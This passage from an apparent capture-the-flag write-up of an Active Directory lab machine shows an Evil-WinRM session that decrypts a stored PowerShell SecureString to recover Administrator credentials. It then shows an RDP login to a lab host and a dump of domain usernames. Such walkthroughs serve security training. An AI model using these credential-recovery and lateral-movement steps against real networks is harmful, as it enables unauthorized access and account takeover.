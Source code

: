     $pass = "01000000d08c9ddf0115d1118c7a00c04fc297....." | ConvertTo-SecureString


    $cred = New-Object System.Management.Automation.PSCredential($user, $pass)

    *Evil-WinRM* PS C:\Users\ben.cox\Desktop> $cred.GetNetworkCredential() | fl


    UserName       : Administrator
    Password       : <redacted>
    SecurePassword : System.Security.SecureString
    Domain         : LUSMS

We can then login to the host using the administrator account, and red the flag.

## 10.10.170.69-DC

Lusms host was now fully under our control as we obtained administrator access. Returning to the lusc host, I couldn't find much of value aside from some data like usernames (including ben.cox credentials). Post-exploitation tasks such as gathering credentials on the lusms host yielded no results either. Therefore, I decided to RDP into the host using the administrator credentials.

`➜  Lustrous xfreerdp /u:administrator /p:'<redacted>' /v:10.10.170.70`

First of all i copied all users for some enumeration if needed.

    Allan.Parker             Ben.Cox
    Bradley.Hancock          Brenda.Andrews           Cameron.Walsh
    Colin.Dodd               Deborah.Harris           Donna.Collins
    Duncan.Spencer           Guest                    Hugh.Wilkinson
    Iain.Evans               Jeremy.Clark             Joanna.Hall
    Joanna.Harvey            krbtgt                   Liam.Atkinson
    Marian.Elliott           Michelle.John            Mitchell.Fuller
    Rachel.Parker            svc_db                   svc_web
    Tony.Ward                Tracy.Roberts            Wayne.Taylor

![alt text](../assets/images/2024-07-02-224543_1025x785_scrot.png)
